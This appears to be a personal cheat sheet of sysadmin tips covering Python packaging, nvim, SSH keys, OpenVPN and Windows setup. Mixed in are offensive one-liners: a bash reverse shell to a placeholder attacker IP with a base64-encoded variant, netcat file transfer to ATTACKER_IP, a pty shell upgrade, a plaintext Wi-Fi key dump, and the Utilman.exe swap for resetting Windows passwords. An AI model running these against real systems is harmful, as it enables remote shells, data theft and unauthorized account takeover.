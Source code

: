 ### Tip-pipenv-poetry >[!CHECK]
**Use pipenv with poetry for python packaging-management and version control**
- first use pipenv to create a virtual project inside the folder with a python version different that the system one
- use poetry for packages control and use the env POETRY_VIRTUALENVS_PREFER_ACTIVE_PYTHON=True for this to work merely correctly; also need to activate the shell of pipenv and a child shell for poetry

### Create App Password on google Account
- Log in to the account, go to manage account, security, activate 2 steps authentication, and use this link if cannot see 
- [Create app password function](https://myaccount.google.com/apppasswords)

### A litle bit of NMAP
- a basic scan for all 65535 ports looking for open ones:
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn {IP} -oG allPorts`

### Read .db files using python
- `python -c "import sqlite3; print(sqlite3.connect('database_name.db').cursor().execute('SELECT * FROM table_name').fetchall())"`

### Netcat
- Listen `nc -vnl -s HOST -p PORT`
- Copy CLIENT `nc -w 3 ATTACKER_IP ATTACKER_PORT < [file_to_download] SERVER nc -l -s HOST -p PORT > [path_to_save]`

### Bash connects
- Connections `"/bin/bash -c 'bash -i >& /dev/tcp/ATTACKING-IP/PORT 0>&1'"`
- Encripted `echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0`

### Read json in bash with python
- `curl -s 'https://api.github.com/users/lambda' | \
    python3 -c "import sys, json; print(json.load(sys.stdin)['name'])"`

### Read json in bash with jq
- `curl -s 'https://api.github.com/users/lambda' | jq -r '.name'`

### Python PSEUDOshell
- `python -c 'import pty; pty.spawn("/bin/bash")'`

### SSH forwarding
- `ssh -D [LOCALADDR:]LOCALPORT -N(just forward connections) -C(compress(better-on-slow-networks)) user@ip`

### Create a service
```
[Unit]
Description=Shadowsocks proxy server
Requires
After

[Service]
Type
RemainAfterExit
User=root
Group=root
Type=simple
WorkingDirectory
ExecStart=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v start
ExecStop=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v stop
TimeoutStartSec

[Install]
WantedBy=multi-user.target
```

### Make NVIM remember last cursor position (pure lua)
```
local group = vim.api.nvim_create_augroup("jump_last_position", { clear = true })
vim.api.nvim_create_autocmd(
	"BufReadPost",
	{callback = function()
			local row, col = unpack(vim.api.nvim_buf_get_mark(0, "\""))
			if {row, col} ~= {0, 0} then
				vim.api.nvim_win_set_cursor(0, {row, 0})
			end
		end,
	group = group
	}
)
```

### Bypass Out Of the Box Experience (windows 11 Internet Requirement)
- In the 'Let's connect you to a network' screen, press `shift+F10` to launch cmd
- Type the following command: `OOBE\BYPASSNRO`
- After the successful execution the system should restart.

### Wlan profiles clear in Windows
- `netsh`
- `netsh wlan`
- `show profiles ssid key="clear"`

### Recover password on windows without reinstall
- On login windows press and hold shift and reboot the pc. Then recovery window will pop up, enter to troubleshooting,
- advanced options, command prompt. Then:
1. copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exebak
2. copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /y
- Reboot again. On login screen got to accessibility press it and a command prompt will appear:
3. net localgroup administrastors
- The list of account shows up, select the one to reset its password:
4. net user your_username *
- Change the password and done.
*Don't forget to restore utilman to its original state*

### PROMISC mode on linux
```
auto eth1
iface eth1 inet manual
  up ifconfig $IFACE 0.0.0.0 up
  up ip link set $IFACE promisc on
  down ip link set $IFACE promisc off
  down ifconfig $IFACE down
```

### On windows, free port range that are in use
- discovery the ports
`netsh interface ipv4 show excludedportrange protocol=tcp`
- release the ports
`net stop winnat`

### Use ssh keys with ssh-config-file
- generate the key pair with ssh
`ssh-keygen -t ed25519 -C "a comment"`
- create a config file inside the .ssh folder that follows this schema:
```
Host name-of-the-configuration
  HostName  gitlab/github.com/ip/hostname
  User git/remote-host-username
  PreferredAuthentications publickey
  IdentifyFile path/to/private/identity/file
```
Configure the remote host with the public ssh key generated

### Openvpn as linux service
- Configure openvpn:
    install openvpn, openvpn-systemd-resolved, openresolv
`sudo wget "https://raw.githubusercontent.com/ProtonVPN/scripts/master/update-resolv-conf.sh" -O "/etc/openvpn/update-resolv-conf"`
`sudo chmod +x "/etc/openvpn/update-resolv-conf"`
- save the openvpn server config file into /etc/openvpn as openvpn.conf
- save the credentials in the first two lines of a textplain file called auth.txt with chmod 400. Put it in /etc/openvpn
- Add/edit this lines in the openvpn.conf file created
`auth-user-pass auth.txt`
`status /etc/openvpn/openvpn-status.log`
`log /etc/openvpn/openvpn.log`


### Check windows version from an ISO
- run:
  `DISM /get-wiminfo /wimfile:"X:\sources\install.wim" /index:1`
`X` is the driver letter

### EOF ###
